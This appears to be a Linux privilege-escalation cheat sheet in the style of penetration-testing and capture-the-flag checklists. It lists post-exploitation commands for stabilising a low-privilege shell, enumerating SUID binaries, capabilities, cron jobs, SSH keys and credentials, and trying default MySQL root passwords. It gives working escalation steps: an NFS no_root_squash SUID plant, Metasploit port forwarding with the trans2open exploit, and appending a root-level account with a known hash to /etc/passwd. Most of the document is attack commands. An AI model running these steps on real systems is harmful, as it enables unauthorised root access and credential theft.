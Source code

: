 **g0tmilk's Guide to Linux Privilege Escalation as well:**  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  
](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  
**I just got a low-priv shell !**  
What would S1REN do _right now_?  
**python** -c 'import pty; pty.spawn("/bin/bash")'  
OR  
**python3** -c 'import pty; pty.spawn("/bin/bash")'  
export **PATH**=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export **TERM**=xterm-256color  
alias **ll**='ls -lsaht --color=auto'  
**Ctrl + Z** [Background Process]  
stty raw -echo **;** fg **;** reset  
stty columns 200 rows 200

  
**S1REN would say:**  
_Various Capabilities?_  
which **gcc**  
which **cc**  
which **python**  
which **perl**  
which **wget**  
which **curl**  
which **fetch**  
which **nc**  
which **ncat**  
which **nc.traditional**  
which **socat**  
  
**Compilation? (**Very Back Burner**)**  
**file** /**bin**/**bash**  
**uname -a**  
cat /**etc**/***-release**  
cat /**etc**/**issue**  

  
**What Arch?**  
file /bin/bash  
  
**Kernel?**  
uname -a  

**Issue/Release?**  
cat /etc/issue  
cat /etc/***-**release  

**Are we a _real user_?**  
sudo -l  
ls -lsaht /etc/sudoers  

**Are any users a member of exotic groups?**  
groups <user>

  
**Check out your shell's environment variables...**  
env  
[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)  

**_Users_?**  
cd /home/  
ls -lsaht

**_Web Configs_ containing credentials?**  
cd /**var**/**www**/**html**/  
ls -lsaht  
  
**_SUID_ Binaries?**  
find **/** -perm **-u=s** -type f 2>/**dev**/**null**  

**_GUID_ Binaries?**  
find **/** -perm **-g=s** -type f 2>/**dev**/**null**  
  
**SUID/GUID/SUDO _Escalation_:**  
[https://gtfobins.github.io/  
](https://gtfobins.github.io/)

**Binary/Languages with "_Effective Permitted_" or "_Empty Capability_" (**ep**):**  
[https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities  
](https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities)Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.  
getcap -r / 2>/dev/null

  
**We need to start monitoring the system if possible while performing our enumeration...**  
**In other words:**  
"S1REN... _Is privilege escalation going to come from some I/O file operations being done by some script on the system?_"  
[https://github.com/DominicBreuker/pspy/blob/master/README.md  
](https://github.com/DominicBreuker/pspy/blob/master/README.md)cd /var/tmp/  
File Transfer **-->** pspy32  
File Transfer **-->** pspy64  
chmod 755 pspy32 pspy64  
./pspy<32/64>  
  
**What does the local network look like?**  
netstat -antup  
netstat -tunlp  
  
**Is anything vulnerable running as root?**  
ps aux |grep -i 'root' --color=auto  
  
**MYSQL Credentials? Root Unauthorized Access?**  
mysql -uroot -p  
Enter Password:  
root : root  
root : toor  
root :

**S1REN would take a quick look at etc to see if any user-level people did special things:**  
cd /**etc**/  
ls -lsaht  
_Anything other than root here?_  
• Any config files left behind?  
→ ls -lsaht |grep -i ‘.conf’ --color=auto

**• If we have root priv information disclosure - are there any .secret in /etc/ files?**  
→ ls -lsaht |grep -i ‘.secret’ --color=aut  

**SSH Keys I can use perhaps for even further compromise?**  
ls -lsaR /**home**/  

**Quick look in:**  
ls -lsaht /**var**/**lib**/  
ls -lsaht /**var**/**db**/  
  
**Quick look in:**  
ls -lsaht /**opt**/  
ls -lsaht /**tmp**/  
ls -lsaht /**var**/**tmp**/  
ls -lsaht /**dev**/**shm**/  

**File Transfer Capability? What can I use to transfer files?**  
which wget  
which curl  
which nc  
which fetch (BSD)  
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

**NFS? Can we exploit weak NFS Permissions?**  
cat /**etc**/**exports**  
no_root_squash?  
[https://recipeforroot.com/**attacking-nfs-shares**/  
](https://recipeforroot.com/attacking-nfs-shares/)  
**[On Attacking Machine]**  
mkdir -p /**mnt**/**nfs**/  
mount **-t** nfs **-o** **vers**=<version 1,2,3> **$IP:**<NFS Share> /**mnt**/**nfs**/ **-nolock**  
gcc suid.c **-o** suid  
cp suid /**mnt**/**nfs**/  
chmod u+s /**mnt**/**nfs**/**suid**  
su <user id matching target machine's user-level privilege.>  
  
**[On Target Machine]**  
user@host$ ./suid  
**#**

**_Where can I live on this machine?_ Where can I read, write and execute files?**  
/**var**/**tmp**/  
/**tmp**/  
/**dev**/**shm**/

**Any exotic file system mounts/extended attributes?**  
cat /**etc**/**fstab**  
  
**Forwarding out a weak service for root priv (with meterpreter!):**  
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.  
[https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)  
  
**Forwarding out netbios-ssn EXAMPLE:**  
**meterpreter>** portfwd add –l 139 –p 139 –r [target remote host]  
**meterpreter>** background  
use exploit/linux/samba/trans2open  
set RHOSTS 0.0.0.0  
set RPORT 139  
run  
  
**Can we write as a low-privileged user to /etc/passwd?**  
openssl passwd -1  
i<3hacking  
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.  
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd  
su siren  
id  
  
**Cron.**  
crontab –u root –l  
  
**Look for unusual system-wide cron jobs:**  
cat /etc/**crontab**  
ls /etc/**cron.***  

**Bob is a user on this machine. What is every single file he has ever created?**  
find / -user **miguel** 2>/dev/null  

**Any mail?** **mbox in User $HOME directory?**  
cd /**var**/**mail**/  
ls -lsaht  
  
**Linpease**:  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
**Traitor:**  
[https://github.com](https://github.com/liamg/traitor)[/](https://github.com/liamg/traitor)[liamg/traitor  
](https://github.com/liamg/traitor)  
**GTFOBins:**  
[https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
**PSpy32/Pspy64:**  
[https://github.com/DominicBreuker/pspy/blob/master/README.md](https://github.com/DominicBreuker/pspy/blob/master/README.md)
